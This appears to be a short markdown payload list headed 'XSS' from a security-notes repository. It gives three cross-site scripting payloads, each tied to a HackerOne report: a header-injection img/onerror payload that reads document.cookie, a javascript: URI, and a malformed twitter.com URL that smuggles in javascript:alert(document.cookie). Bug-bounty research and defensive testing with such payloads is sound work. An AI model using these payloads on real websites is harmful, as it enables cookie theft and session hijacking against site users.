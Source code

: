 # XSS
*  X-Forwarded-Host: bing.com"><img src/onerror=prompt(document.cookie)>
> https://hackerone.com/reports/1392935

*  javascript:alert(document.domain) 
> https://hackerone.com/reports/1441988

*  https://dev.twitter.com//x:1/:///%01javascript:alert(document.cookie)/
> https://hackerone.com/reports/260744
